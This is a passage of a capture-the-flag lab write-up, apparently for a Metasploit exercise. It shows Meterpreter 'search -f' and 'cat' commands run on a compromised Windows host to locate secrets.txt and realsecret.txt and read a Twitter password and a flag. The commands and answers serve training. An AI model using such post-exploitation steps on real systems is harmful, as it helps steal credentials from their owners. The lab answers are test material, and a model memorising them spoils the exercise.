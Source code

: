 ![image](https://github.com/user-attachments/assets/36bf1542-73a6-476a-8792-d02650ff644f)


### Question 6:
Where is the "secrets.txt"  file located? (Full path of the file)

**Answer:** c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt

search file with this command search -f [file_name]
```bash
meterpreter > search -f secrets.txt
Found 1 result...
=================

Path                                                            Size (bytes)  Modified (UTC)
----                                                            ------------  --------------
c:\Program Files (x86)\Windows Multimedia Platform\secrets.txt  35            2021-07-30 08:44:27 +0100

meterpreter > 
```

### Question 7:
What is the Twitter password revealed in the "secrets.txt" file?

**Answer:** KDSvbsw3849!

use cat command


![image](https://github.com/user-attachments/assets/b5f09bcf-4630-4dfd-ba36-21d17168792b)


### Question 8:
Where is the "realsecret.txt" file located? (Full path of the file)

**Answer:** c:\inetpub\wwwroot\realsecret.txt

```bash
meterpreter > search -f realsecret.txt
Found 1 result...
=================

Path                               Size (bytes)  Modified (UTC)
----                               ------------  --------------
c:\inetpub\wwwroot\realsecret.txt  34            2021-07-30 09:30:24 +0100

meterpreter > 
```

### Question 9:
What is the real secret?

**Answer:** The Flash is the fastest man alive

```bash
c:\inetpub\wwwroot\realsecret.txt  34            2021-07-30 09:30:24 +0100

meterpreter > cat "c:\inetpub\wwwroot\realsecret.txt"
The Flash is the fastest man alivemeterpreter > 
```
